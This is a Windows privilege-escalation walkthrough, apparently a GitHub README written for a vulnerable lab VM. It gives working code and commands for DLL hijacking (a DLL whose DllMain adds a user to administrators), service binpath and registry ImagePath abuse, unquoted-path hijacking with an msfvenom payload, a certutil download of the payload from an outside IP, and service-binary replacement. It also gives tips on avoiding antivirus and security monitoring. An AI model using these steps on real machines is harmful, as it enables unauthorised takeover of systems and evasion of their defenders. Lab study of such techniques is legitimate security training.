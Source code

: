 # Windows-PrivEsc

## DLL Hijacking
1. Make sure C:\Temp in the Victim Machine is a writable location for standard user.
2. DLL Injection can be done via modifying any dll file in windows which can be run by the user.
3. We can modify the dll or make our own dll .
4. The dll file can be made by compiling the following code in the attacker machine and then placing it under C:\Temp in  Victim’s machine.

CODE:
```
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
   if (dwReason == DLL_PROCESS_ATTACH) {
       system("cmd.exe /k net localgroup administrators $USER$ /add");
       ExitProcess(0);
   }
   return TRUE;
}
```

5. Replace $USER$ with standard user name account and the compile it with mingw ,
6. For 64 bit - ```x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll```
For 32 bit-  ```i686-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll```

The above command will generate the dll file , which we will place in C:\Temp
7. Execute the dll file inside the victim via inbuilt windows command i.e RUNDLL32.EXE
Syntax for running the dll file :

In command prompt :
   ``` 
    cd /
    cd /Temp
    RUNDLL32.EXE hijackme.dll
   ```

Boom.!  your user is now added to the local administrator group and you are having the full admin privileges .
- - -

The Accesschk tool is highly recommended to assess any sort of permissions more efficiently. Accesschk is not limited to registry keys it also enables the user to view the access lists of different Windows objects such files, processes, users and groups, and services. One of the most useful features of the tool is that
it returns objects to which a particular user or group may have write access. Using Accesschk on victim machine could be smart but also pretty risky as well so why using it?
Accesschk is a part of Sysinternals Suite which is a singed tool by Microsoft so anti viruses won’t alert when you will drop this tool on the victim machine, however on a large domain environment which have some Security products like SIME and some logical security rule sets you can get caught because it’s not common when a normal user will use Accesschk.

## Binpath

1. After gettig a initial shell, run the following command in your attackers machine, or directly run it into windows VM.
   ```
   accesschk64.exe -wuvc daclsvc
   -w	Show only objects that have write access
   -u	Suppress errors
   -v	Verbose
   -c	Name is a Windows Service
   ```

![0](images/binpath/1.png)

Notice that the output suggests that the user has the “SERVICE_CHANGE_CONFIG” permission.


2. Now type the following command, it will set the binpath to "net localgroup administrators user /add". And when the service will start again, this command will get executed and our user will be added in administrators group. Hence we will escalate privileges.
 
```sc config daclsvc binpath= "net localgroup administrators user /add"```

![0](images/binpath/2.png)

3. Now start the service by typing the following command.
 ```sc start daclsvc```

4. As we can see our user has been added in the administrators group.
![0](images/binpath/3.png)

- - -
## Unquoted path

1. Type the following command.
 
```sc qc unquotedsvc```
"sc qc - Displays the configuration of a particular service"

![0](images/unquote/1.png)

2. Create a executable file with name "common"

 ```msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe```
![0](images/unquote/2.png)

3. Transfer the file to windows machine and move it into "C:\Program Files\Unquoted Path Service"

```certutil.exe -urlcache -f http://192.168.43.97:8000/common.exe common.exe```

4. Now start the service by typing the following command. When the service will start, it will take the file from C:\Program Files\Unquoted Path Service\Common Files\ but we have placed our payload named common.exe in C:\Program Files\Unquoted Path Service\ so it will execute our malicious file instead of path exploiting the "unquoted path".
 
```sc start unquotedsvc```

![0](images/unquote/3.png)

5. As we can see our user has been added in the administrators group.
![0](images/unquote/4.png)

- - -
## Fileperm

1. Type the following command.
```sc qc filepermsvc```

![0](images/fileperm/1.png)

2. Now type the following command in the terminal.

```accesschk64.exe "C:\Program Files\File Permissions Service\filepermservice.exe"```

![0](images/fileperm/2.png)

3. Create a malicious file with the following payload or you can transfer the windows_service.c file from C:\Users\user\Desktop\Tools\Source folder to your attacker machine and edit it like following.

![0](images/reg/4.png)

4. Now compile it into an executable and transfer back to windows machine.

```x86_64-w64-mingw32-gcc windows_service.c -o filepermservice.exe```

5. Now copy the file from Temp directory to the location.

```copy /y c:\Temp\filepermservice.exe "c:\Program Files\File Permissions Service\filepermservice.exe"```

6. Start the service by typing the following command.
 ```sc start filepermsvc```

7. As we can see our user has been added in the administrators group.
![0](images/unquote/4.png)

- - -
## Services (Registry)
1. Getting a Powershell from initial shell.
![0](images/reg/1.png)
![0](images/reg/2.png)

The Get-Acl cmdlet gets objects that represent the security descriptor of a file or resource. The security descriptor contains the access control lists (ACLs) of the resource. The ACL specifies the permissions that users and user groups have to access the resource. 

2. Now type the following command in your terminal. 
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
-Path => Specifies the path to a resource. Get-Acl gets the security descriptor of the resource indicated by the path.
```
This uses the Get-Acl cmdlet to get the security descriptor of the Control subkey (HKLM:\SYSTEM\CurrentControlSet\services\regsvc) of the registry.

![0](images/reg/3.png)

3. Create a malicious file with the following payload or you can transfer the windows_service.c file from C:\Users\user\Desktop\Tools\Source folder to your attacker machine and edit it like following.

![0](images/reg/4.png)

4. Now compile it into an executable and transfer back to windows machine.
```
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

5. Copy it to C:\Temp directory

6. Now run the following command 
```reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f```

![0](images/reg/5.png)

7. Start the service by typing the following command.
```sc start regsvc```

8. As we can see our user has been added in the administrators group.

![0](images/reg/6.png)

